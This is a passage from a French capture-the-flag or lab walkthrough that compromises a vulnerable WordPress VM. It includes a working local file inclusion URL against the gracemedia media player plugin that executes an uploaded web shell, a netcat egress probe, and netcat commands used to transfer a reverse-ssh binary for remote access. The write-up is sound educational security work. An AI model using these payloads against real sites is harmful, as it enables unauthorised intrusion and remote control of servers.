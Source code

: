 ```plain
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.
```

Il y a un plugin baptisé *gracemedia* en version 1.0. Il s'agit de la dernière version mais il n'en reste pas moins qu'elle est vulnérable [à une faille d'inclusion locale](https://www.exploit-db.com/exploits/46537).

On peut en profiter pour faire exécuter ce fameux shell :  

```plain
/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../home/jarves/upload/shell.php&cmd=id
```

D'après l'output le fichier est inclus à deux reprises :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je souhaiterais bien rapatrier un reverse shell mais le trafic sortant semble en partie filtré.  

Cela est validé avec le netcat présent sur la VM qui ne semble laisser passer que SSH :  

```plain
$ nc -zv 192.168.101.1 1-500 -w 1
--- snip ---
nc: connect to 192.168.101.1 port 21 (tcp) timed out: Operation now in progress
Connection to 192.168.101.1 22 port [tcp/ssh] succeeded!
--- snip ---
```

Le trafic entrant n'a pas ce type de restrictions alors il suffit de mettre en port en écoute et une redirection :  

```bash
$ nc -l -p 9999 > /tmp/reverse-sshx64
```

et on envoi la sauce :  

```bash
$ ncat 192.168.101.128 9999 -v < /tmp/reverse-sshx64
```

Il ne reste plus qu'à se connecter avec SSH sur le port 31337 et le password par défaut de [reverse-ssh](https://github.com/Fahrj/reverse-ssh).  

This is the way
---------------

Mais la façon attendue d'obtenir le shell c'est visiblement de profiter que le partage SMB est en écriture.  

